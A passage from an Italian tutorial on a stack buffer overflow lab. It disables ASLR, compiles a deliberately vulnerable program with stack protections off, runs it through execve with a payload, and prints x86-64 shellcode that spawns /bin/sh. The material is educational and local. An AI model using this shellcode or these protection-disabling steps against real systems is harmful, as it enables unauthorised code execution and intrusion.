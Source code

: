     ```bash
    echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
    ```
    
- **NX (No-eXecute)**
    
    La **protezione NX** impedisce l’esecuzione di codice nelle aree di memoria marcate come dati, come ad esempio lo **stack**. Poiché noi stiamo iniettando la shellcode nello stack, dobbiamo disabilitare anche questa protezione. 
    Per farlo bisogna compilare il programma vulnerabile con il seguente comando, disablitando le protezioni del compilatore
    
    ```bash
    gcc -fno-stack-protector -z execstack vuln.c -o vuln
    ```
    

---

## Avvio del programma vulnerabile tramite exploit

Arrivati a questo punto con il nostro payload completo e con tutte le protezioni disabilitate, possiamo eseguire il nostro programma vulnerabile tramite l’exploit.

Possiamo farlo tramite una chiamata a `execve()`, che esegue il binario passando il nostro payload come argomento:

```c
    char *args[] = {"./vuln", payload, NULL};
    execve("./vuln", args, NULL);
    perror("execve");  //Se fallisce, stampa errore
```

- `args` è un array di puntatori che contiene il nome del programma (`"./vuln"`) e il nostro `payload`

---

## Avvio del exploit

Compiliamo e avviamo l’exploit.

```bash
gcc -fno-stack-protector -z execstack exploit.c -o exploit
./exploit
```

## Codice completo

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

// Shellcode per execve("/bin/sh", NULL, NULL)

unsigned char shellcode[] =
  "\x6a\x3b"                    // push   0x3b
  "\x58"                        // pop    rax
  "\x99"                        // cdq
  "\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x2f"  // mov rbx, "//bin/sh/"
  "\x53"                        // push   rbx
  "\x48\x89\xe7"                // mov    rdi, rsp
  "\x52"                        // push   rdx
  "\x57"                        // push   rdi
  "\x48\x89\xe6"                // mov    rsi, rsp
  "\x0f\x05";                   // syscall

```
